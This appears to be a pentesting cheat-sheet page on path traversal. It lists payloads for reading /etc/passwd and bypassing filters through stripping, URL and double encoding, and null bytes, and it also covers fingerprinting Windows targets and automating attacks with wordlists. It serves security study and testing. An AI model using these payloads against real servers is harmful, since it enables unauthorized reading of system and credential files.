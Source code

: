 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

{{< hint style=tips >}}
**Tip**: On Windows, you can also try using a different drive letter than *C:*.
{{< /hint >}}

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
- `C:/Windows/explorer.exe`
- `C:/Windows/notepad.exe`
- `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:
```bash
exiftool explorer.exe

[...]
OS Version                      : 10.0
Image Version                   : 10.0
Subsystem Version               : 10.0
Subsystem                       : Windows GUI
File Version Number             : 10.0.14393.7513
Product Version Number          : 10.0.14393.7513
File Flags Mask                 : 0x003f
File Flags                      : (none)
File OS                         : Windows NT 32-bit
Object File Type                : Executable application
File Subtype                    : 0
Language Code                   : English (U.S.)
Character Set                   : Unicode
Company Name                    : Microsoft Corporation
File Description                : Windows Explorer
File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
Internal Name                   : explorer
Legal Copyright                 : © Microsoft Corporation. All rights reserved.
Original File Name              : EXPLORER.EXE
Product Name                    : Microsoft® Windows® Operating System
Product Version                 : 10.0.14393.7513
[...]
```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

{{< hint style=tips >}}
**Tip**: Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.
{{< /hint >}}



## Automation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
